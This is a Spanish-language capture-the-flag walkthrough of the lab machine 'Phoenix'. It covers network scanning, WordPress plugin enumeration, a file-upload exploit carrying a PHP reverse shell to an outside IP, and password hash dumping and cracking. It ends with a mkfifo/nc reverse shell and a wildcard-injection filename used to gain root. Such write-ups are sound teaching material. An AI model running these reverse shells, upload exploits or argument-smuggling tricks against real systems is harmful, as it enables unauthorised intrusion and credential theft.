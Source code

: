 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Phoenix            |
| Os                     | Linux              |
| Difficulty             | Hard               |
| Points                 | 40                 |
| IP                     | 10.10.11.149       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Phoenix/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.149
```

![nmap 1](/assets/images/Phoenix/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.149 -oG allPorts
```

![nmap 2](/assets/images/Phoenix/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,80 10.10.11.149 -oN targeted
```

![nmap 3](/assets/images/Phoenix/nmap3.png)

Al acceder al website, nos dirige a un virtual host `phoenix.htb`, asiq ue lo agregaremos a nuestro /etc/hosts y ahora si podremos visualizar correctamente su contenido. 

```s
whatweb http://phoenix.htb
```

Estamos presentes ante una pagina con wordpress. 

![whatweb](/assets/images/Phoenix/whatweb.png)

Asi que lo siguiente fue usar wpscan para enumerar las vulnerabilidades o pluggins que se puedan explotar.
 
```s
#Para que nos enumere usuarios, pluggins vulnerables, y pase la certificacion ssl:
wpscan -v --disable-tls-checks --url https://phoenix.htb --force --enumerate u,vp
#Para que nos enumere pluggins:
wpscan -v --disable-tls-checks --url https://phoenix.htb --force --enumerate p
```
![wp-users](/assets/images/Phoenix/wp_users.png)

![wp-pluggins](/assets/images/Phoenix/wp_plugins.png)

Navegando e investigando sobre lo que contiene la pagina, no encontre nada, pero hay veces que el escaneo no enumera todos los pluggins de wordpress, como es el caso del **download-from-file**, busque exploits para este pluggin y encontre que es vulnerable a un una arbitraria carga de archivos. Asi que intentaremos hacer algo, un reverse shell con php y la llame pwn.phtml por que el <a href="https://www.exploit-db.com/exploits/50287">exploit </a> solo acepta php4 y phtml, pero le gusto mas esta extension, tambien fueron necesarias unas modificaciones que pongo despues.

```php
<?php system("bash -c 'bash -i  >& /dev/tcp/10.10.11.230/4444  0>&1'"); ?>
```

![modify 1](/assets/images/Phoenix/verify1.png)

![modify 2](/assets/images/Phoenix/verify2.png)

Ahora, para obtener la shell solo mandamos un:

```s
curl "https://phoenix.htb/wp-admin/reverse3.phtml" -k
```

![Shell uploaded](/assets/images/Phoenix/shell_uploaded.png)

![Reverse shell](/assets/images/Phoenix/reverse_access.png)

Ahora solo tendremos que entrar en MySQL para enumerar las contrasenas. Las contrasenas del servicio de MySQL estan en el archivo wp-config.php, que ahora ya tenemos acceso. Y para entrar, usamos el comando:

```sql
mysql -uwordpress -p wordpress

select user_login, user_pass from wp_users;
```

![Reverse shell](/assets/images/Phoenix/password_hashes.png)

Es hora de crackear las contrasenas encontradas.

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hash
#superphoenix
```

Una vez crackeada la contrasena, podemos ingresar a la otra maquina por ssh como editor, leer la flag y empezar la escalada de privilegios.

Ahora haremos un arcrchivo en /backup llamado shell.sh con la siguiente linea

```s
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 443 >/tmp/f' > shell.sh
```

Y despues para el wildcard

```s
touch -- '-e sh shell.sh'
```

![Wildcard](/assets/images/Phoenix/wild.png)

Y nos ponemos en escucha por el puerto 443

![root](/assets/images/Phoenix/root.png)

![powned](/assets/images/Phoenix/powned.png)